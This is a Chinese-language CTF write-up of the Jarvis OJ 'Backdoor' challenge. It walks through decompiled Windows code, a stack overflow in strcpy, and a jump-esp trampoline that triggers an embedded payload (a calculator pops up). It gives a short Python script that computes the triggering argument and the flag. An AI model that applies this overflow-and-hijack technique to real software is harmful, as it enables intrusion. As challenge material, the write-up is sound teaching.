 ```yaml
---
title: Jarvis OJ - Backdoor の Write-Up
date: 2020-08-18 14:44:56
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## Introduction

&emsp;&emsp;根据题目程序存在后门，某个参数可以触发该程序执行后门操作。这个程序是个exe程序，但在win10和win7虚拟机上均无法运行，最后在Win XP上按照提示下载了缺失的MSVCP100D.dll后终于得以成功运行。

<!-- more -->

## Analysis

&emsp;&emsp;一开始在hopper中反编译程序，虽然程序逻辑结构很清楚，但是代码可读性真是一言难尽......还是老老实实打开IDA吧。

```C#
signed int __cdecl wmain(int a1, int a2)
{
  char v3; // [esp+50h] [ebp-2C8h]
  char v4; // [esp+E1h] [ebp-237h]
  char v5; // [esp+E4h] [ebp-234h]
  char Source[4]; // [esp+100h] [ebp-218h]
  char v7; // [esp+104h] [ebp-214h]
  __int16 i; // [esp+108h] [ebp-210h]
  char Dest[2]; // [esp+10Ch] [ebp-20Ch]
  char Dst; // [esp+10Eh] [ebp-20Ah]
  char v11[25]; // [esp+110h] [ebp-208h]
  char v12[483]; // [esp+129h] [ebp-1EFh]
  __int16 v13; // [esp+30Ch] [ebp-Ch]
  LPSTR lpMultiByteStr; // [esp+310h] [ebp-8h]
  int cbMultiByte; // [esp+314h] [ebp-4h]

  cbMultiByte = WideCharToMultiByte(1u, 0, *(LPCWSTR *)(a2 + 4), -1, 0, 0, 0, 0);
  lpMultiByteStr = (LPSTR)sub_4011F0(cbMultiByte);
  WideCharToMultiByte(1u, 0, *(LPCWSTR *)(a2 + 4), -1, lpMultiByteStr, cbMultiByte, 0, 0);
  v13 = *(_WORD *)lpMultiByteStr;
  if ( v13 < 0 )
    return -1;
  v13 ^= 0x6443u;
  strcpy(Dest, "0");
  memset(&Dst, 0, 0x1FEu);
  for ( i = 0; i < v13; ++i )
    Dest[i] = 65;
  *(_DWORD *)Source = 2147108114;
  v7 = 0;
  strcpy(&Dest[v13], Source);
  qmemcpy(&v5, &unk_4021FC, 0x1Au);
  strcpy(&v11[v13], &v5);
  qmemcpy(&v3, &unk_402168, 0x91u);
  v4 = 0;
  strcpy(&v12[v13], &v3);
  sub_401000(Dest);
  return 0;
}
```

&emsp;&emsp;首先看下这个主函数。应该是接收键盘输入的内容，经过转换然后赋给v13，注意v13申明的是int 16，再将v13与0x6443异或。然后向Dest数组里填充v13数值个的ASCII值65也就是’A’。

&emsp;&emsp;再将2147108114即0x7ffa4512这个地址传到了Dest[v13]。而0x7ffa4512这个地址在windows上是一个万能的jmp esp（几乎所有的平台上这个地址都是jmp esp）。所以可以通过这个地址上的jmp esp指令控制程序跳转到某一个函数的地址上去执行设定好的函数。

&emsp;&emsp;再往下走，这个函数最后调用Dest是将其作为sub_401000函数的参数，再去找一下这个函数：

```C#
int __cdecl sub_401000(char *Source)
{
  char Dest[2]; // [esp+4Ch] [ebp-20h]
  int v3; // [esp+4Eh] [ebp-1Eh]
  int v4; // [esp+52h] [ebp-1Ah]
  int v5; // [esp+56h] [ebp-16h]
  int v6; // [esp+5Ah] [ebp-12h]
  int v7; // [esp+5Eh] [ebp-Eh]
  int v8; // [esp+62h] [ebp-Ah]
  int v9; // [esp+66h] [ebp-6h]
  __int16 v10; // [esp+6Ah] [ebp-2h]

  strcpy(Dest, "0");
  v3 = 0;
  v4 = 0;
  v5 = 0;
  v6 = 0;
  v7 = 0;
  v8 = 0;
  v9 = 0;
  v10 = 0;
  strcpy(Dest, Source);
  return 0;
}
```

&emsp;&emsp;果然在这个函数里发现了溢出漏洞，在strcpy(Dest, Source)语句这里。在主函数中Source申明的是char Source[4]，而Dest申明的是char Dest[2]，strcpy函数把一个长字符赋给里一个短字符，典型的溢出漏洞。

&emsp;&emsp;根据Dest的大小，需要0x20的padding加上4个字节的返回地址，一共0x24字节。这样程序执行的时候会将0x7ffa4512覆盖到Dest最后4字节也就是strcpy函数的返回地址，从而控制程序跳转触发后门。

&emsp;&emsp;所以我们需要控制的是v13的值为0x24即可，再注意一下机器的大小端问题以及题目要求的给出参数小写SHA256值，直接给出EXP：

```Python
import hashlib

value = chr(0x24 ^ 0x43)
value += chr(0 ^ 0x64)

print "value: " + value
print "flag: PCTF{" + hashlib.sha256(value).hexdigest() + "}"
```

&emsp;&emsp;执行之后就可以得到出发后门的参数以及flag：

![](/img/Backdoor/Backdoor1.png)

&emsp;&emsp;后门程序在Win XP中复现成功，弹出了计算器：

![](/img/Backdoor/Backdoor2.png)
